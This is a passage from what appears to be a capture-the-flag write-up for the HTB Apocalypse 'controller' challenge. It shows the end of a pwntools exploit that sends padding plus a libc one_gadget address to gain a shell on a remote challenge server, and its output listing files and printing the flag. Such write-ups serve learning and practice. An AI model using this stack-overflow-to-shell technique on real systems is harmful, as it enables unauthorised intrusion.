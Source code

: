 ```
target.sendline(b'11')
print(target.recvuntil(b'4.'))
target.sendline(b'3')
print(target.recvuntil(b'Do you want to report the problem?'))


payload = padding
payload += p64(onegadget)
target.sendline(payload)

target.interactive()
```


And the output looks like this:

```
knittingirl@piglet:~/CTF/HTBApocalypse$ python3 controller_payload.py 
[+] Opening connection to 206.189.121.131 on port 30388: Done
[*] '/home/knittingirl/CTF/HTBApocalypse/controller'
[+] Opening connection to 206.189.121.131 on port 30388: Done
[*] '/home/knittingirl/CTF/HTBApocalypse/controller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/knittingirl/CTF/HTBApocalypse/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'\x1b[1;6;31m\n\xf0\x9f\x91\xbe Control Room \xf0\x9f\x91\xbe\n\n\x1b[0mInsert the amount of 2 different types of recources:'
b' Choose operation:\n\n1. \xe2\x9e\x95\n\n2. \xe2\x9e\x96\n\n3. \xe2\x9d\x8c\n\n4.'
b' \xe2\x9e\x97\n\n> -18 * 11 = 65338\nSomething odd happened!\nDo you want to report the problem?'
0x7ff38d99faa0
0x7ff38d9bcdb0
b' \xf0\x9f\x91\xbe\n\n\x1b[0mInsert the amount of 2 different types of recources:'
b' Choose operation:\n\n1. \xe2\x9e\x95\n\n2. \xe2\x9e\x96\n\n3. \xe2\x9d\x8c\n\n4.'
b' \xe2\x9e\x97\n\n> -18 * 11 = 65338\nSomething odd happened!\nDo you want to report the problem?'
[*] Switching to interactive mode

> Problem ingored
$ whoami
ctf
$ ls
controller  flag.txt  libc.so.6
$ cat flag.txt
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
$  

```
